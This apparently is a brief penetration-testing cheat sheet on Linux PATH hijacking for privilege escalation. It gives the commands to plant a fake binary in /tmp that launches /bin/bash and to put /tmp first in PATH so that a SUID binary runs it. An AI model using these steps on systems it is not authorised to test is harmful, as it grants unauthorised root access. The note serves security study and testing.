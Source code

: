 ```yaml
---
tags:
  - Penetration-Testing
  - PrivEsc
---
```

## What is PATH?
PATH is an environmental variable in Linux/Unix which specifies directories that hold executable programs.
- When user runs any command, searches for executable files using PATH
- Changing PATH variable if binary is not utilizing absolute paths could point to malicious script

## Exploitation
- **Locate SUID/GUID binaries executed with elevated privileges**
- **Examine paths on command calls (are absolute paths being utilized?)**

- **Create imitation of binary in tmp**
```bash
cd /tmp
echo "/bin/bash" > [IMITATION_COMMAND]
chmod +x [IMITATION_COMMAND]
```

- **Change PATH variable to point to where Imitation Command is stored**
```bash
export PATH=/tmp:$PATH
```

- **Execute binary to escalate privileges**

## Resetting PATH variable
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```
